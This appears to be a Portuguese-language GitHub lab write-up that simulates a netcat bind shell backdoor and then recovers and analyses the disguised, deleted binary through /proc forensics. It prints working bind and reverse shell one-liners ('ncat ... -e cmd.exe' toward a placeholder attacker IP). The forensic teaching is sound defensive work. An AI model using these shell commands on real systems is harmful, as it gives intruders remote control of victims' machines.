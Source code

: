 # bind-shell-attack

Nessa atividade foi necessário simular um bind shell attack, e após isso, no computador da vitima, recuperar o arquivo binário deletado desse ataque e analisar esse processo suspeito.

- Nesse ataque de backdoor foi utilizado o netcat, por mais que existam outras maneiras de realizar esse tipom de ataque.

Em um bind shell attack o computador da vítima é capaz de transmitir o executavel do bash, ou cmd, através de uma porta específica, para o computador da pessoa que deseja realizar esse ataque. No caso do netcat o atacante necessita fazer com que a vítima rode uma linha de comandos, transmitindo o bash para o computador do atacante. No caso do bind shell, o computador da vítima fica esperando que o computador de ataque se conecte ao ip e a porta.

Ex:
  C:\Program Files (x86)\Nmap>ncat -lvp 4444 -e cmd.exe  -> computador da vítima 
  
  nc x.x.x.x 4444 -> computador de ataque
  
Na atividade o netcat abre a porta tcp 41000 e envia informações para /dev/null do computador da vitima. Além disso ele mascara o nome do programa para "freedom",é colocado no diretorio /tmp(arquivos temporários), e após executado é removido, sobrando apenas o seu processo em execução.

![freedom](https://user-images.githubusercontent.com/44793167/96667221-06003680-132f-11eb-868f-c891f98685aa.jpg)

Após isso, na atividade era necessário utilizar o "nestat -nalp" para verificar a porta que esta aberta e o processo que está ocorrendo naquela porta, porém meu netstat não estava funcionando, mas foi possivel ver o processo em execução através do "ps", com o PID 16725.

![ps](https://user-images.githubusercontent.com/44793167/96667414-7018db80-132f-11eb-8ec3-24d72cb90de8.jpg)

Com o PID do nosso processo duvidoso, foi possível ver diversas informações sobre ele:

![info](https://user-images.githubusercontent.com/44793167/96667592-b5d5a400-132f-11eb-9272-0a0897fbe5ba.jpg)

Com isso, foi possivel ver que o arquivo binário do processo foi apagado, e assim foi necessário recuperar esse arquivo.

- Utilizando o comando:  cp /proc/16725/exe /tmp/recovered_bin

Para saber se a pessoa que atava o computador da vítima estava utilzando o netcat, podemos comparar as hashes dos dois programas, e assim ver se als são iguais.

![hashes](https://user-images.githubusercontent.com/44793167/96668117-da7e4b80-1330-11eb-9a5b-cfd2679cfcfd.jpg)

E assim sabemos que o processo era o netcat, só que camuflado.

Além disso, foram realizados outros tipos de análise

![cmdline](https://user-images.githubusercontent.com/44793167/96668463-95a6e480-1331-11eb-9807-40b0c8dade13.jpg)

- Através dessa análise do comand line, é possivel notar que os nomes estão diferentes, sendo características de programas maliciosos, pois esse programa está mascarado com um nome diferente do seu nome original.

![enviro](https://user-images.githubusercontent.com/44793167/96668766-3eedda80-1332-11eb-8571-30c584f46daf.jpg)

- Através do enviroment do processo podemos ver quem ou o que iniciou o processo

![fd](https://user-images.githubusercontent.com/44793167/96668962-ac9a0680-1332-11eb-9623-732d471f28e7.jpg)

- Pelos file descriptors é possivel saber diretórios ou arquivos que o processo está usando para armazenar coisas, juntamente com seus sockets abertos

![maps](https://user-images.githubusercontent.com/44793167/96669192-203c1380-1333-11eb-9b37-159465b2b74f.jpg)

- Pelos process maps é possivel saber que bibliotecas o processo estava utilizando, além de ser possivel que apareçam links para arquivos maliciosos que o processo estava utilizando.

![status](https://user-images.githubusercontent.com/44793167/96669468-ab1d0e00-1333-11eb-9516-595d0121f89a.jpg)

- Nos status do processo é possivel ver o PID dos processos pai desse processo.

Além do bind shell atack, existe o reverse shell atack, onde o computador de ataque fica a espera que o computador da vítima se conecte a ele, ou seja, o computador do atacante só precisa declarar que porta ele estará escutando, e assim o computador do alvo precisa se conectar ao ip e porta do atacante, além transmitir o executável do bash ou cmd.

ex:

   nc -lvp 4444 -> computador de ataque 
   
   C:\Program Files (x86)\Nmap>ncat x.x.x.x 4444 -e cmd.exe


  
